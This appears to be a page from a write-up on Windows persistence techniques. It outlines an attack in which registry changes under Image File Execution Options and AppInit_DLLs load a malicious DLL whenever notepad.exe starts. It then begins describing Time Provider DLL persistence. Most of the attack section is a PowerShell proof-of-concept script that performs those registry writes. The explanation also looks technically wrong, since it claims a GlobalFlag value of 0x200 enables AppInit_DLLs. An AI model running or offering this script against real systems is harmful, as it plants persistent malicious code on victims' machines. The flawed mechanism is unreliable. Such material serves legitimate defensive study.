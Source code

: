 ### **Scenario of IFEO GlobalFlag Attacks**

- Create Malicious DLL: The attacker develops a DLL that contains malicious code.
- Modify Registry for GlobalFlag:
    - The attacker adds a new key under the IFEO registry path for a commonly used executable (e.g., notepad.exe).
    - They set the GlobalFlag value in this key to enable AppInit_DLLs.
- Modify AppInit_DLLs:
    - The attacker modifies the AppInit_DLLs registry key (located in HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows) to include their malicious DLL.
- Execution on Target Application Launch: Whenever the specified application is launched, the system loads the malicious DLL, executing the attacker’s code.

### **Sample Proof of Concept (PoC) Code in PowerShell**

Here’s how an attacker might use PowerShell to create an IFEO GlobalFlag entry and modify AppInit_DLLs:

```
# Set IFEO GlobalFlag for a target application

$IFEOPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe"

$GlobalFlagValue = "0x00000200" # Enables AppInit_DLLs

# Create the IFEO registry key for the target application

New-Item -Path $IFEOPath -Force

# Set the GlobalFlag value

New-ItemProperty -Path $IFEOPath -Name "GlobalFlag" -Value $GlobalFlagValue -PropertyType String -Force

# Modify AppInit_DLLs to include the malicious DLL

$AppInitPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows"

$MaliciousDLL = "C:\Path\To\Malicious\DLL.dll"

# Add the malicious DLL to AppInit_DLLs

Set-ItemProperty -Path $AppInitPath -Name "AppInit_DLLs" -Value $MaliciousDLL

Write-Host "IFEO GlobalFlag and AppInit_DLLs modified successfully."
```

## **Time provider**

The Time Provider mechanism in Windows is a feature that allows the system to synchronize its clock with an external time source. This feature can be exploited for persistence by attackers, as it allows them to register a malicious DLL as a Time Provider. When the Windows Time service (W32Time) starts, it loads the registered Time Provider DLLs, which can lead to the execution of malicious code.
